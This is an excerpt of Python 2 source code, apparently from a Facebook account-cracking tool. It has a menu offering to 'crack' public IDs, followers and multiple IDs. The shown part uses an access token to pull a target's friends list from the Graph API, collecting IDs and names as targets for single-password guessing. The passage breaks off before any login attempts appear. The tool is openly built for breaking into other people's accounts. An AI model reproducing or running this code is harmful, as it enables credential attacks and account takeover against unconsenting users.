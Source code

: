     os.system('clear')
    print logo
    print '\t     CRACK WITH SINGLE PASS'
    print '\x1b[1;97m======================================================='
    print '[1] CRACK PUBLIC ID'
    print '[2] CRACK FOLLOWERS'
    print '[3] CRACK MULTIPLE ID'
    print '[4] FILE CLONING'
    print '[0] BACK'
    print '\x1b[1;97m======================================================='
    digit_rx()
 
 
def digit_rx():
    rx = raw_input('[?] Choose : ')
    id = []
    oks = []
    cps = []
    if rx == '1':
        os.system('clear')
        print logo
        print '\t     SINGLE PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[?] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
            print '\t     SINGLE PASS CRACKING'
            print '\x1b[1;97m======================================================='
            print '[+] CLONING FROM : \x1b[1;92m' + q['name']
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            choice()
 
        r = requests.get('https://graph.facebook.com/' + idt + '/friends?access_token=' + token)
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif rx == '2':
        os.system('clear')
        print logo
        print '\t     SINGLE PASS CRACKING'
        print '\x1b[1;97m======================================================='
        idt = raw_input('[?] INPUT ID : ')
        